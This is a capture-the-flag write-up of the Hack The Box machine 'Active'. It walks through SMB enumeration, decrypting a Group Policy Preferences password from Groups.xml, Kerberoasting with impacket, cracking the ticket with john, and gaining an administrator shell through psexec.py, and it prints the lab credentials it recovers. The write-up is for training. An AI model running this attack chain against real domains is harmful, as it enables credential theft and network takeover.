 ```yaml
---
layout: post
title: Hack The Box - Active
categories: hack-the-box
tags: [Windows, smb, Active Directory]
image: hackthebox/active/0.png
redirect_from: "/HackTheBox-Active/"
---
```


<hr>
### Quick Summary 
#### Active was a great box and very realistic , Kinda easy if you're familiar with windows active directory security. But if you're not ... then this box will teach you something. It's a windows box and its ip is 10.10.10.100 so let's jump right in .
![](/images/hackthebox/active/0.png)
<br>
<hr>
### Nmap 
#### As Always we will start with nmap to scan for TCP ports and Services
`nmap -sV -sT 10.10.10.100`
![](/images/hackthebox/active/1.png)
#### And we see many ports open but we will focus on the important ports only.
#### Kerberos on 88 , netbios-ssn on 139 , ldap on 389 and 3268.
<br>
<hr>
### SMB Enumeration
#### Since we have netbios-ssn open on port 139 let's run smbmap and see what we get.
#### If you're not on kali you can get smbmap from [here](https://github.com/ShawnDEvans/smbmap)
`smbmap -H 10.10.10.100`
![](/images/hackthebox/active/2.png)
#### And we see that we can only access the share *Replication* anonymously
`smbclient //10.10.10.100/Replication`
![](/images/hackthebox/active/3.png)
#### After we access the share we will find a file called *Groups.xml* in `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`
#### By looking at the file we will find a username and an encrypted password.
![](/images/hackthebox/active/4.png)
<br>
<hr>
### Decrypting GPP
#### So if you don't know what's that cpassword ... it's called gpp (Group Policy Password) And I won't talk about it in the write-up. If you're interested [here's a great resource to read about it](https://adsecurity.org/?p=2288)
#### To decrypt it there's a tool called gpp-decrypt. If you're not on kali get it from [here](https://github.com/BustedSec/gpp-decrypt)
![](/images/hackthebox/active/5.png)
#### And we got the password GPPstillStandingStrong2k18
<br>
<hr>
### User
#### Now we have the credentials SVC_TGS:GPPstillStandingStrong2k18 and we can own user
`smbclient //10.10.10.100/Users -U SVC_TGS`
![](/images/hackthebox/active/6.png)
![](/images/hackthebox/active/7.png)
![](/images/hackthebox/active/8.png)
<br>
<hr>
### Kerberoasting
#### Now if we return to our nmap scan.
![](/images/hackthebox/active/1.png)
#### We will see that we have kerberos running on port 88 and we have owned a user on the box so we will go for kerberoasting and if you don't know what kerberoasting technique is you can read this great series about it 
<br>
#### [Part 1](https://room362.com/post/2016/kerberoast-pt1/)
#### [Part 2](https://room362.com/post/2016/kerberoast-pt2/)
#### [Part 3](https://room362.com/post/2016/kerberoast-pt3/)
<br>
#### First we will add 10.10.10.100 to our /etc/hosts
#### Then We will use GetUserSPNs.py from [impacket](https://github.com/SecureAuthCorp/impacket) to get administrator  Kerberos ticket
`./GetUserSPNs.py -request active.htb/SVC_TGS`
![](/images/hackthebox/active/9.png)
#### And we got the ticket in john format so it's ready for cracking.
#### We will just add the option `-outputfile` to save the ticket in a file and we're ready to go.
![](/images/hackthebox/active/10.png)
<br>
<hr>
### Cracking The Ticket
#### We will use john to crack the ticket with rockyou.txt
#### And one of the problems that I faced when I was trying to crack the ticket is that john wasn't recognizing the format so make sure you're using an updated version of both impacket and john because impacket also had problems with the hash format output. For me the problem was with john so I solved it by using [jumbo version of john](https://github.com/magnumripper/JohnTheRipper).
`./john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt`
![](/images/hackthebox/active/11.png)
#### And we got the administrator password : Ticketmaster1968
<br>
<hr>
### Root
#### Now we can easily get a root shell using psexec.py from [impacket](https://github.com/SecureAuthCorp/impacket)
`./psexec.py administrator@active.htb`
![](/images/hackthebox/active/12.png)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Hawk](/hack-the-box/hawk/)
#### Next Hack The Box write-up : [Hack The Box - Waldo](/hack-the-box/waldo/)
<hr>
